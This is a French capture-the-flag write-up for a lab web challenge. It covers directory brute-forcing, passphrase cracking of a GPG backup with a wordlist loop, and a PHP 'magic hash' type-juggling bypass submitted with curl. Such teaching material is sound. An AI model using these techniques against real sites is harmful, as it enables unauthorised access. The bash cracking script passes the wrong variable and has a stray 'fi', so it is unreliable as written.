 # Website INEAT

Après un petit tour du site, on ne trouve pas grand chose d'intéressant. On va donc utiliser un petit outil de bruteforce de répertoires.
Personellement, j'ai utilisé `diresearch.py` dispo sur github.

```
python3 dirsearch.py -u https://website.ctf.ineat.fr -e php,asc,prk -r
```

On trouve deux trois trucs intéressants :

> [09:39:55] 301 -  169B  - /files  ->  http://website.ctf.ineat.fr/files/  
> [09:39:55] 403 -  555B  - /files/  
> [09:39:58] 200 -   21KB - /index.php  
> [09:40:07] 200 -    1KB - /robots.txt  

On commence par aller jetter un oeil au fichier `robots.txt` dans lequel on trouve certaines choses intéressantes :

```
[...]
Disallow: https://website.ctf.ineat.fr/secured/flag
Disallow: https://website.ctf.ineat.fr/__secured-backup.tar.gz.gpg
Disallow: https://website.ctf.ineat.fr/INEAT{th1s-1s-n07-th3-fl4g} <-- l'humour de Jordan
```

Le premier et le troisième lien sont des baits, on s'intéresse donc plus en détail à notre archive. Il s'agit d'un `.tar.gz` chiffré avec GPG. Faute de clé, il va falloir casser le mot de passe.

Pour ce faire, on va pouvoir utiliser une petite implémentation custom en bash et une wordlist basique comme `rockyou.txt` :

```

#!/bin/bash

while read match; do
        gpg --batch --passphrase "$pass" "__secured-backup.tar.gz.gpg" &> /dev/null
        if [ "$?" == 0 ]; then
                 echo "SPass found : $match"
                break
        fi
done < "rockyou.txt"
fi
```

Il existe probablement des implémentations un peu (beaucoup) plus efficaces, mais avec un peu de patience on trouve le mot de passe : `supersexy`. On peut maintenant déchiffrer l'archive et décompresser l'archive.

```
$  gpg --output secured-backup.tar.gz --decrypt __secured-backup.tar.gz.gpg
$  tar -xzvf secured-backup.tar.gz
```

On a donc extrait les fichiers suivants :

```text
.
├── __secured-backup.tar.gz
├── fade.gif
├── files
│   └── style.css
├── index.php
├── not-the-flag-you-can-pass.gif
└── robots.txt
```

Le fichier `index.php` devrait contenir notre bonheur. Après avoir remplacé les noms abominables des variables par quelque chose de respectable et fait un peu de ménage, on se retrouve avec quelque chose qui ressemble à ça :

```php
$hash = hash("md5", $_POST["h1"]);

//Funny php :)
if( strpos($_POST["h1"], "hello") !== false > 0 && $hash == "0" ) {
  echo "<!-- Bien joué le flag est ".$flag."-->";
}

```

Notre mot de passe est donc hash en MD5 avant de passer dans un if un peu étrange.  
La suite demande en réalité quelques connaissances (ou recherches) sur les bizarreries de PHP. Il faut savoir qu'il existe un bug relativement connu de PHP concernant les comparaisons de hash qu'on appelle les "Magic Hashes" (il existe probablement un nom plus sérieux que je ne connais malheureusement pas). Plutôt que tout - mal - réexpliquer, je vous laisse jetter [un coup d'oeil ici](https://www.whitehatsec.com/blog/magic-hashes/) pour en apprendre un peu plus.

Globalement pour résumer, quand un hash débute par "0e" et que - pour une raison obscule - on le compare à "0", C'est la merde. Le test passera systématiquement et notre comparaison devient innutile. Il nous faut donc trouver une chaine qui produit un MD5 qui :
* Commence par "0e"
* Contient "hello"

Une bonne liste de collisions [peut-être trouvée ici](https://github.com/spaze/hashes/blob/master/md5.md).

On prend par exemple `md5(0rCCFVK5hello) => 0e341458689020068004009380684426`
Il ne nous reste plus qu'à envoyer tout ça.

```
$  curl -s https://website.ctf.ineat.fr/index.php --data "h1=0rCCFVK5hello" | grep flag
<!-- Bien joué le flag est INEAT{w34k_c0mp4r4is0n_f4iL}-->
```
